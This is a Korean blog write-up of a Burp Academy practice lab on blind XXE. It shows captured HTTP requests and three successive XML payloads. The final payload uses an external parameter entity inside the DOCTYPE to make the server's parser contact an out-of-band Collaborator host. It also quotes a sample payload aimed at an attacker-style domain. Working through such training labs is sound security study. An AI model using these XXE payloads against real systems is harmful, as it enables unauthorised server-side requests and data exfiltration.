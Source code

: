 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction via XML parameter entities"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities
- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제와 마찬가지로 "Check stock" 기능으로 XXE가 가능하다. 
- HTTP 응답으로 에러 발생등의 결과는 알 수 없는 것 같다. 
- 그리고 일반적인 external entities 가 포함된 요청은 블록하고 있다고 한다. 
- 파라메터 엔터티를 통해 문제 서버의 XML 파서가 외부도메인에 대해 DNS쿼리를 질의하도록 만들면 된다. 
- DNS 요청이 발생했다는 것을 알기 위해서 Burp Collaborator 서버를 사용한다. 
- PortSwigger사의 [Burp Collaborator 설명](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}에서 알 수 있듯이, 디폴트 Burp Collaborator 서버의 도메인 `*.burpcollaborator.net` 또는  `*.oastify.com` 를 사용한다. 

```
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

# 풀이 

## XXE 가능한 곳 발견
이전 문제들과 마찬가지로 "Check stock" 버튼 클릭시 발생하는 POST 요청의 바디 부분이 XML로 되어 있는 것을 발견했다. 

```
POST /product/stock HTTP/1.1
Host: 0aa30080038a706fc050bdf600870025.web-security-academy.net
Cookie: session=K72hbA7QeOP5dlNcdWpw31bGKKqWACeB
Content-Length: 107
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0aa30080038a706fc050bdf600870025.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa30080038a706fc050bdf600870025.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ko;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```

```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

568
```

## 1차 시도 
다음과 같이 `xxetest.burpcollaborator.net` 에 대한 요청을 보내는 페이로드를 사용해 봤다. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

호오... 엔터티는 보안 이유상 사용하지 못하도록 되어 있다고 한다.   

```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

문제 설명에 따르면 External 엔터티는 사용하지 못하지만 Parameter 엔터티라고 하는 것은 사용가능한 것 같다. Parameter 엔터티를 어떻게 사용하는지 알아보자.  

Burp Academy의 [Blind XXE 설명 페이지](https://portswigger.net/web-security/xxe/blind) 에 따르면 `%` 를 사용해서 Parameter 엔터티의 선언 및 사용을 할 수 있다고 한다.  예를 들면 다음과 같은 식이다. 
- 변수명 앞에 `%`를 붙인다. 
- 참조할 때도 `&`가 아니라 `%`로 참조한다. 

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

## 2차 시도 
다음과 같이 Parameter 엔터티를 선언하고 참조하도록 바꿔보았다. 

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://xxetest.burpcollaborator.net"> ] >
<stockCheck>
	<productId>%xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

잘못된 product ID라고 한다. Parameter 엔터티를 사용해서 XXE가 가능한 것 같다. 조금 정답에 근접한 것 같다. productID를 `%xxe;` 로 참조하는 부분을 바꿔보자. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 20

"Invalid product ID"
```

## 3차 시도 
다시 한번 샘플 페이로드를 살펴 보자.   
`%xxe;` 참조가 `<!DOCTYPE>` 을 정의하는 엘레먼트에 들어가 있는 것을 알 수 있다. 

```xml 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

페이로드를 다음과 같이 변경했다. 

```xml 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://xxetest.burpcollaborator.net"> %xxe;] >
<stockCheck>
	<productId>2</productId>
	<storeId>1</storeId>
</stockCheck>
```

XML 파싱 에러가 발생했다는 응답이 돌아온다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

![Blind XXE Repater](/images/burp-academy-xxe-4-repeater.png)

여기서 웹 페이지를 보면 성공했다는 메세지가 보인다! 

![Blind XXE 성공](/images/burp-academy-xxe-4-success.png)



